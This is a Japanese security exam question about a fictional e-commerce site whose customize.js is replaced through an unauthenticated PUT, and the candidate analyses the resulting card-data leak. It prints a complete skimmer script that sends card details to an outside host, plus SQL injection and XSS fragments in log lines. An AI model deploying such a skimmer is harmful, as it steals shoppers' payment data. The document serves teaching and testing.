

## 問3 クレジットカード情報の漏えいに関する次の記述を読んで、設問に答えよ。

J社は、インテリアを扱う ECサイト(以下, J社のECサイトをJ社ECサイトという)を運営する、従業員200名の会社である。

### [J社ECサイトの構成]

J社ECサイトは、Web アプリケーションプログラム(以下、J社ECサイトのWebアプリケーションプログラムを Web アプリPという)、 Web サーバ及びDBサーバで構成されている。J社はWebアプリPの開発及び保守、並びにWebサーバ及びDBサーバの構築,管理及び保守をV社に委託している。Web アプリPのアプリケーションログには、アクセス日時,画面名,アカウント名、アクセス元 IP アドレスなどが記録される。
J社ECサイトでの支払方法は、クレジットカード決済及び銀行振込に対応している。クレジットカード決済はD社の決済代行サービスを利用している。D社の提供する決済用 ECMAScript プログラムを使用したトークン型決済を用いて、クレジットカード情報の非保持化を実現している。商品購入に関する画面の概要を表1に、画面遷移を図1に示す。

**表1 商品購入に関する画面の概要(抜粋)**
*注1) 利用者情報としてあらかじめ配送先住所を登録しておく。配送先住所は複数登録できる。登録済みの配送先住所はプルダウンで選択できる。*
*注2) 利用者情報としてあらかじめ電子メールアドレスを登録しておく。*
| 画面名 | 説明 |
| :--- | :--- |
| ショッピングカート | 購入対象としてショッピングカートに登録された商品を表示する。ショッピングカートに登録した商品を購入する場合は、“購入”ボタンを押す。配送先・支払方法選択画面に遷移する。 |
| 配送先・支払方法選択 | 配送先住所と支払方法を選択する。配送先住所を選択し、クレジットカード決済と銀行振込のいずれかの支払方法を選択して、“次へ”ボタンを押す。支払手続画面に遷移する。 |
| 支払手続 | 支払方法に応じて、表示される内容及び入力する内容が異なる。クレジットカード決済の場合は、クレジットカード情報の入力フォームが表示される。D社の提供する決済用 ECMAScript プログラムによって、決済が行われる。銀行振込の場合は、振込先の口座情報が表示される。 |
| 注文完了 | ショッピングカート→配送先・支払方法選択→支払手続が完了した場合に表示される。この後に注文確認の電子メールが商品を購入した利用者に送信される。 |

**図1 商品購入に関する画面遷移**
*注記1) `/cart` などはURLのパス名を示す。*
*注記2) `/cart`以外へのアクセスはJ社ECサイトへのログインが必要である。*
*注記3) `/cart`以外は直接アクセスするとトップページにリダイレクトされる。*



*その他画面イメージは変換不可のため省略*

### [利用者からの問合せ]

6月11日から12日にかけて、複数の利用者から、クレジットカード情報を入力する画面が2回表示されるという問合せ、及び支払方法が勝手にクレジットカード決済になってしまうという問合せがあった。J社ECサイト担当者のGさんは、偽のクレジットカード情報入力フォーム(以下,偽フォームという)が表示された可能性があると考え、上司のRさんに報告した上で、Webサーバの6月11日のアクセスログに不審な点がないかどうかを確認した。Webサーバの6月11日のアクセスログのうち、不審と思われるアクセスを抽出したものを表2に示す。

**表2 Web サーバのアクセスログ**
*注記1) アクセス日時, User-Agent, リファラなどは省略している。*
*注記2) リクエスト URI 中の "..." は省略を表す。*
*注記3) リクエスト URIは、URL デコード済みである。*
| 行番号 | メソッド | リクエスト URI | ステータスコード |
| :--- | :--- | :--- | :--- |
| 1 | GET | `/products/list?page=4&category_id=1` | 200 |
| 2 | GET | `/login?id=hoge&pw=' UNION select 1 FROM...` | 200 |
| 3 | POST | `/mypage/userinfo` | 200 |
| 4 | POST | `/mypage/change` | 200 |
| 5 | GET | `/cart?add=""><script>document.getElementById(...` | 200 |
| 6 | GET | `/products/list?category=green's sofa` | 200 |
| 7 | PUT | `/shopping` | 405 |
| 8 | GET | `/cart` | 200 |
| 9 | POST | `/payment` | 200 |
| 10 | PUT | `/ec-j/layout/js/customize.js` | 204 |

次は、アクセスログに関するRさんとGさんの会話である。
**Rさん:** 偽フォームの表示が可能な攻撃の痕跡はあったのか。
**Gさん:** 表2の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">a</span> 行目が <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性を狙った攻撃だと思いますが、そういった攻撃であれば偽フォームの表示が可能です。さらに <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性が <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">c</span> 型であれば、1回の攻撃で多数の利用者に対して偽フォームの表示が可能です。
**Rさん:** それとは別に、表2の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">d</span> 行目は <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> 脆弱性を狙った攻撃の痕跡だと思うが、仮にその脆弱性が存在した場合に、偽フォームの表示は可能なのか。
**Gさん:** WebアプリPが、DBサーバに格納している情報を基にWebページを動的に生成していれば可能かもしれません。
**Rさん:** 承知した。その他、表2の10行目のPUT メソッドでファイルが更新されている点も気になる。以前、セキュリティベンダーに依頼して報告を受けている Web アプリ Pの脆弱性診断レポートに、 <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性及び <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> 脆弱性の指摘があるかどうかと、PUTメソッドによる更新はV社によるものかどうか、V社に至急確認してほしい。

Gさんは、6月13日にV社に問い合わせた。また、最新バージョンのWebアプリPに対する脆弱性診断レポートを確認したところ、脆弱性の指摘はなかった。

### 〔偽フォーム表示の原因の調査と対策〕

6月14日にV社から連絡があり、PUTメソッドによるファイル更新はV社によるものではなかったことが判明した。Webサーバに設置していた ECMAScript ファイルの一つ customize.js が攻撃者のファイル(以下、ファイルKという)に置き換えられていた。customize.jsは、通常時は空のファイルであり、 Web サイトのデザインを一時的に変更する際に利用するものである。①<u>配送先・支払方法選択画面でファイル Kが読み込まれており、HTML の一部が書き換えられていた</u>。この書換えによって、②<u>配送先・支払方法選択画面から支払手続画面への画面遷移の処理で利用しているパラメータの値が変更され、支払方法がクレジットカード決済に固定されていた</u>。ファイルKを整形したものを図2に、配送先・支払方法選択画面のHTMLソースを図3に示す。

**図2 整形後のファイルK**

```javascript
1: if (location.pathname == '/shopping') {
2:   let elem = document.querySelector("#shopping-form > div > div > div.order_payment > div.radio");
3:   elem.innerHTML = '<p>カード番号<input type="text" id="get_number" /></p><p>有効期限<input type="text" id="get_exp_month" />月/<input type="text" id="get_exp_year" />年</p><p>名義<input type="text" id="get_name" /></p><p>セキュリティコード<input type="text" id="get_code" /></p><input type="hidden" name="order[Payment]" value="1" />';
4:   let form = document.getElementById('shopping-form');
5:   form.addEventListener('submit', function() {
6:     const req = new XMLHttpRequest();
7:     let number = document.getElementById('get_number').value;
8:     let exp_month = document.getElementById('get_exp_month').value;
9:     let exp_year = document.getElementById('get_exp_year').value;
10:    let name = document.getElementById('get_name').value;
11:    let code = document.getElementById('get_code').value;
12:    let url = 'https://i-sha.com/?num=' + number + '&exp=' + exp_month + '%2F' + exp_year + '&name=' + name + '&code=' + code;
13:    req.open("GET", url);
14:    req.send();
15:  });
16: }
```

**図3 配送先・支払方法選択画面のHTMLソース**
*注記 CSRF 対策のトークンの記述は省略している。*

```html
(省略)
<form id="shopping-form" method="post" action="/payment">
  <div class="order">
    <div class="order_detail">
      (省略)
      <div class="order_payment">
        <div><h2>お支払方法</h2></div>
        <div class="radio">
          <input type="radio" id="Payment_1" name="order[Payment]" required data-trigger="change" value="1" checked />
          <label for="Payment_1"><span>クレジットカード決済</span></label>
          <input type="radio" id="Payment_2" name="order[Payment]" required data-trigger="change" value="2" />
          <label for="Payment_2"><span>銀行振込</span></label>
        </div>
        (省略)
        <button type="submit" class="blockBtn">次へ</button>
      </div>
    </div>
  </div>
</form>
<script src="/ec-j/layout/js/customize.js"></script>
(省略)
</body>
</html>
```

その後 6月16日にV社から、customize.jsの置換えについての調査結果及び対処の報告があった。その報告を図4に示す。

**図4 V社からの調査結果及び対処の報告**

  - V社でPUTメソッドに関する設定変更を6月8日18時12分に実施した。
    Web サーバのファイル更新は、事前申請をした後に Web サーバにSSHで接続して行う運用であるが、V社の作業者がSSHで接続せずにファイルを更新できるように、`/ec-j/layout/js/`配下だけ、未認証でもPUTメソッドでファイルの更新を許可する設定にした。
  - V社で6月9日9時00分から10時42分の間にJ社ECサイトのメンテナンスを実施した。メンテナンスではPUT メソッドを使用した。
  - customize.jsの置換えは6月11日13時12分に行われた。
    PUT メソッドを使って、ファイルKに置き換えられた。
  - Web アプリPの仕様上、 customize.jsの読み込みは無効にできない。
  - customize.js以外のファイルの置換えはなかった。
  - 6月16日8時5分にPUTメソッドによるファイルの更新を禁止する設定にし、customize.jsを置換え前のファイルに戻した。
  - 6月16日9時00分に Cache Busting を実施した。
    ファイルKのキャッシュ破棄と customize.js の再読込みの二つを行わせるための変更をした。

### [クレジットカード情報の漏えいの調査と対策]

本件に関する利用者からの問合せは、6月15日21時45分が最後であり、合計32件あった。次は、customize.jsの置換えによる影響の調査に関するRさんとGさんの会話である。
**Rさん:** クレジットカード情報入力フォームが2回表示されたのは、 customize.jsが置き換えられていた影響で偽フォームが表示されたからだったのか。
**Gさん:** そのとおりです。2回目に表示されたクレジットカード情報入力フォームにクレジットカード情報を入力し、送信している場合だけ、当社で注文が完了していました。
**Rさん:** ダミーのクレジットカード情報を設定して図2でGET リクエストが送られる先のURLにアクセスしたところ、404のステータスコードが返ってきた。もし、攻撃者の Web サーバが適切なステータスコードを返しているとしたら、この結果から、攻撃者のWebサーバにWebアプリケーションプログラムが用意されておらず、クレジットカード情報は盗まれていないと判断してよいか。
**Gさん:** ③<u>利用者が改ざんされた画面に入力して、クレジットカード情報が送信されてしまったときに、攻撃者の Web サーバで Web アプリケーションプログラムを用意していなくても、攻撃者は利用者の入力したクレジットカード情報を取得する方法があります。</u>クレジットカード情報は盗まれたと判断すべきです。
**Rさん:** クレジットカード情報の漏えいの可能性について利用者に案内を出したい。攻撃者の Web サーバにクレジットカード情報を送信した利用者を特定してほしい。攻撃者の Web サーバに情報を送信してしまった利用者は漏れなく特定したいが、送信していない利用者はできるだけ含めたくない。そのためには、どのようにすればよいのか。
**Gさん:** V社の報告から, customize.jsの置換えの影響のあった期間は6月11日13時12分から6月16日9時00分と考えられます。攻撃者のWebサーバにクレジットカード情報を送信する直前までの操作をした利用者を被害者候補として特定するために、その期間のアプリケーションログから <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">f</span> を抽出したいと思います。
**Rさん:** それで抽出してくれ。

その後、Gさんは、プロキシサーバなどのキャッシュの影響も考慮した上で、被害者候補を特定し、その情報を基に案内を出した。また、J社は、関係当局に報告,届出を行うとともに、V社と協力して再発防止策を検討し、実施した。さらに、Webサーバのファイルの改ざん検知の検討を行うことにした。

-----

### 設問1

本文中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">a</span> ～ <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> に入れる適切な行番号又は字句を答えよ。

### 設問2

[偽フォーム表示の原因の調査と対策] について答えよ。
(1) 本文中の下線①について、書換え後の画面全体を図示せよ。
(2) 本文中の下線②について、パラメータ名とその値を答えよ。
(3) 図2について、4~15行目の処理内容を具体的に答えよ。

### 設問3

〔クレジットカード情報の漏えいの調査と対策〕について答えよ。
(1) 本文中の下線③について、攻撃者の Web サーバでクレジットカード情報を取得する方法を答えよ。
(2) 本文中の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">f</span> に入れる適切な字句を答えよ。

-----
